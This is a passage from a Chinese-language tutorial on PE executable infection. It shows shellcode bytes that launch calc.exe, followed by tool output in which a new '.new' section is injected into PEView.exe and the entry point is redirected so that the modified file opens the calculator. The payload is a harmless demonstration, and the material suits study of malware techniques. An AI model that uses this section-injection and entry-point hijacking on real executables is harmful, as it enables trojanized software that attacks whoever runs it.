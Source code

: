 ```c
"\x08\xf3\xa6\x74\x0a\x40\x39\xd8"
"\x72\xe5\x83\xc4\x26\xeb\x41\x8b"
"\x4d\xf4\x89\xd3\x8b\x55\xec\x66"
"\x8b\x04\x41\x8b\x04\x82\x01\xd8"
"\x31\xd2\x52\x68\x2e\x65\x78\x65"
"\x68\x63\x61\x6c\x63\x68\x6d\x33"
"\x32\x5c\x68\x79\x73\x74\x65\x68"
"\x77\x73\x5c\x53\x68\x69\x6e\x64"
"\x6f\x68\x43\x3a\x5c\x57\x89\xe6"
"\x6a\x0a\x56\xff\xd0\x83\xc4\x46"
"\x5d\x5f\x5e\x5a\x59\x5b\x58\xc3";
```

选取 PEView.exe 为测试对象，可以看到如下的输出结果：
```shell
parsing DOS Header...
parsing NT headers...
parsing section headers...
parsing finished...
MZ signature:   5a4d
ImageBase:      00400000
EntryPoint:     00001000
Name    RVA
code    00001000
data    0000a000
const   0000c000
.rsrc   00010000
.idata  00014000
largest cave: code, cave size: 00000ef0
parsing DOS Header...
parsing NT headers...
parsing section headers...
parsing finished...
reparsing...
parsing DOS Header...
parsing NT headers...
parsing section headers...
parsing finished...
insert finished, reparsing sections...
change Adress of Entry Point to 15000
Name    RVA
code    00001000
data    0000a000
const   0000c000
.rsrc   00010000
.idata  00014000
.new    00015000
```
可以看到新插入的节，名字为 .new，RVA 为 0x00015000。同时，打开 new_pe.exe，就会弹出计算器。

## 编写 shellcode
